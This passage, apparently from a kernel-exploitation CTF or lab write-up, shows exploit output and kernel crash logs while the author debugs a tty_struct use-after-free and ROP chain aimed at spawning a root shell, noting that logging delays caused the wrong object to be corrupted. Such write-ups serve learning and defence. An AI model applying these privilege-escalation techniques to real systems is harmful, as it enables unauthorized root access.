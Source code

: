 Doing this, I got a kernel crash, as shown below:

```sh
[+] ROP chain executed, should have spawned shell!
[    5.056846] general protection fault: 0000 [#1] PREEMPT SMP NOPTI
[    5.057223] CPU: 0 PID: 65 Comm: exploit Tainted: G           O       6.6.16 #1
[    5.057436] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.3-1-1 04/01/2014
[    5.057783] RIP: 0010:0xdeadbeefdeadbe13
[    5.058198] Code: Unable to access opcode bytes at 0xdeadbeefdeadbde9.
[    5.058382] RSP: 0018:ff5a0a05c0193dc8 EFLAGS: 00010282
[    5.058534] RAX: deadbeefdeadbe13 RBX: 0000000000000000 RCX: 000000000006be40
[    5.058698] RDX: 0000000000000001 RSI: ff1a599cc1b80bf0 RDI: ff1a599cc1bcbc00
[    5.058863] RBP: 0000000000000000 R08: 0000000000000000 R09: 000000000002eb50
[    5.059028] R10: ff1a599cc1242980 R11: 0000000000000000 R12: ff1a599cc1bcbc00
[    5.059220] R13: ff1a599cc1bcbdd0 R14: 0000000000000000 R15: 0000000000000000
[    5.059415] FS:  0000000000000000(0000) GS:ff1a599cc7600000(0000) knlGS:0000000000000000
[    5.059614] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    5.059750] CR2: deadbeefdeadbe13 CR3: 0000000005c2e000 CR4: 0000000000751ef0
[    5.059934] PKRU: 55555554
[    5.060041] Call Trace:
[    5.060549]  <TASK>
[    5.060761]  ? die_addr+0x31/0x80
[    5.060938]  ? exc_general_protection+0x1af/0x3d0
[    5.061058]  ? asm_exc_general_protection+0x26/0x30
[    5.061183]  ? __tty_hangup.part.0+0x332/0x370
[    5.061288]  ? tty_release+0xe1/0x4e0
[    5.061377]  ? __fput+0xe8/0x280
[    5.061458]  ? task_work_run+0x58/0x90
[    5.061552]  ? do_exit+0x345/0xac0
[    5.061635]  ? hrtimer_interrupt+0x11c/0x230
[    5.061741]  ? do_group_exit+0x2c/0x80
[    5.061826]  ? __x64_sys_exit_group+0x13/0x20
[    5.061925]  ? do_syscall_64+0x3f/0x90
[    5.062015]  ? entry_SYSCALL_64_after_hwframe+0x6e/0xd8
[    5.062169]  </TASK>
# more stuff
```

However, RIP ended up pointing to `0xdeadbeefdeadbe13`, which was unexpected since that address corresponds to the `hangup()` function. After thinking it through for a while, I realized I was indeed corrupting a `tty_struct`, but it wasn’t the one I had spawned myself.

The problem came from the fact that I had added a lot of `printf` statements for logging and debugging. All that output caused enough delay that other `tty_struct` instances were being allocated into the freed heap before mine, leading to the wrong one getting corrupted.

#### 12. root???

After cleaning up the code and removing unnecessary delays, I was finally able to get the instruction pointer (RIP) to point exactly where I wanted. This was confirmed through the call trace in the kernel crash logs.

```sh
[+] Spamming ioctls to execute ROP chain...
[-] Failed to execute ROP chain on PTY 0: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 1: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 2: Inappropriate ioctl for device
[    6.260309] BUG: unable to handle page fault for address: 00000000c319b808
[    6.260836] #PF: supervisor read access in kernel mode
[    6.261044] #PF: error_code(0x0000) - not-present page
[    6.261349] PGD 1c14067 P4D 1c0b067 PUD 0 
[    6.261736] Oops: 0000 [#1] PREEMPT SMP NOPTI
[    6.262197] CPU: 0 PID: 65 Comm: exploit Tainted: G           O       6.6.16 #1
[    6.262526] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.3-1-1 04/01/2014
```